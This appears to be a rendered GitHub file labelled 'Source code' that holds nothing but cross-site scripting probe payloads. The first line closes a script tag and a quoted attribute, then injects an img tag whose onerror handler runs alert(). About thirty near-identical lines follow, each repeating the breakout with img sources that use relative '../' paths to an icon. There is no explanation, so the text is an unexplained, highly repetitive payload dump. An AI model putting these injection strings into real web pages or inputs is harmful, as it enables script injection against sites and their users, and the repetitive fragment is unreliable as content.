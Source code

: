 # </script>'"><img src=x onerror=alert();>
</script>'"><img src=/../../../../fluidicon.png?1>
</script>'"><img src=/../../../../fluidicon.png?2>
</script>'"><img src=/../../../../fluidicon.png?3>
</script>'"><img src=/../../../../fluidicon.png?4>
</script>'"><img src=/../../../../fluidicon.png?5>
</script>'"><img src=/../../../../fluidicon.png?6>
</script>'"><img src=/../../../../fluidicon.png?7>
</script>'"><img src=/../../../../fluidicon.png?8>
</script>'"><img src=/../../../../fluidicon.png?9>
</script>'"><img src=/../../../../fluidicon.png?10>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
</script>'"><img src=/../../../../fluidicon.png>
